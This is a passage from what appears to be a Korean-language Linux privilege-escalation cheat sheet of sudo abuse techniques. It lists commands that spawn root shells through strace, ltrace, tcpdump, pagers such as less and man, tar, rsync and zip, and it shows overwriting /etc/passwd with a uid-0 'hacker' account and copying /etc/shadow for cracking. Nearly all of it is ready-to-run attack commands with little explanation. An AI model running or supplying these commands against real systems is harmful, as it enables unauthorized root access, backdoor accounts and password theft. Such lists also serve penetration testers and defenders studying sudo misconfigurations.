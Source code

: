 ```bash

# strace로 쉘 실행
sudo strace -o /dev/null /bin/sh

# ltrace로 쉘 실행
sudo ltrace -b -L -- /bin/sh

# tcpdump로 명령 실행
echo '#!/bin/sh\n/bin/sh' > /tmp/shell
chmod +x /tmp/shell
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell
```

### 📄 페이저 도구 악용

```bash
# more로 쉘 실행
sudo more /etc/profile
# more 프롬프트에서
!/sh

# less로 쉘 실행
sudo less /etc/profile
# less에서
!/sh

# man 페이지에서 쉘
sudo man man
# man 페이지에서
!/sh

# journalctl (systemd 로그)
sudo journalctl
# 페이저에서
!/sh
```

### 📁 파일 조작 도구 악용

```bash
# cp로 /etc/passwd 덮어쓰기
echo 'hacker:$6$salt$hash:0:0:root:/root:/bin/bash' > /tmp/passwd
sudo cp /tmp/passwd /etc/passwd
su hacker

# 또는 shadow 파일 복사
sudo cp /etc/shadow /tmp/shadow
# 그리고 크랙

# mv로 파일 이동
echo 'hacker:$6$salt$hash:0:0:root:/root:/bin/bash' > /tmp/passwd
sudo mv /etc/passwd /etc/passwd.bak
sudo mv /tmp/passwd /etc/passwd

# tar로 명령 실행
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# rsync로 명령 실행
sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null

# 7z, zip 등
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```
